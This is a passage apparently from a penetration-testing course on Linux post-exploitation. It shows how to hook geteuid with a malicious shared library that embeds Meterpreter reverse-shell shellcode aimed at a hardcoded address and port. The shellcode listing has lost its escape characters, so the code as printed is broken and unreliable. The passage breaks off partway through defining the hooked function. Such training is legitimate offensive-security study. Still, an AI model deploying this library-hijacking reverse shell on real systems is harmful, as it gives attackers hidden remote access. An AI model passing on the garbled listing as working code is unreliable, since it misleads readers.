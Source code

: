 According to the function's man page,[7:1](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_437-7) it takes no parameters and returns the user's UID number.

Let's try to hook this call through our own malicious shared library. In our library, we'll simply redefine the _geteuid_ function. We don't need to define a constructor function as we did in the previous examples. This is because we want to fire our payload when a library function is being called, rather than when the library is loaded. Also, this will allow us to "patch" what the library is doing and still retain its original behavior.

This time, we'll include a reverse shell so we can enjoy the full benefit of our efforts.

Let's walk through our code. First, as with other C programs, the _include_ statements list the standard libraries the program will use. dlfcn.h,[8](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_437-8) is worth noting as it defines functions for interacting with the dynamic linking loader.

```
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>
```

> Listing 61 - Include statements

The next portion of our code is our shellcode, which is stored in the _buf_ character array. We can generate a payload with msfvenom in C format.

```
char buf[] = 
"x48x31xffx6ax09x58x99xb6x10x48x89xd6x4dx31xc9"
"x6ax22x41x5axb2x07x0fx05x48x85xc0x78x51x6ax0a"
"x41x59x50x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05"
"x48x85xc0x78x3bx48x97x48xb9x02x00x05x39xc0xa8"
"x76x03x51x48x89xe6x6ax10x5ax6ax2ax58x0fx05x59"
"x48x85xc0x79x25x49xffxc9x74x18x57x6ax23x58x6a"
"x00x6ax05x48x89xe7x48x31xf6x0fx05x59x59x5fx48"
"x85xc0x79xc7x6ax3cx58x6ax01x5fx0fx05x5ex6ax7e"
"x5ax0fx05x48x85xc0x78xedxffxe6";
```

> Listing 62 - Meterpreter reverse shellcode

Following the shellcode declaration, we'll define our _geteuid_ function. The signature matches the original. It has no parameters (void) and returns a value of _uid\_t_, which in this case is simply an integer.

```
uid_t geteuid(void)
{
```

> Listing 63 - Defining the function

The next line defines a pointer, which we'll use to point to the old _geteuid_ function. We're using the _typeof_[9](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_437-9) keyword to determine the pointer type dynamically. As a reminder from the AV section, a pointer is just a variable that points to a place in memory. In this case, it points to the memory location where the old _geteuid_ function is stored.
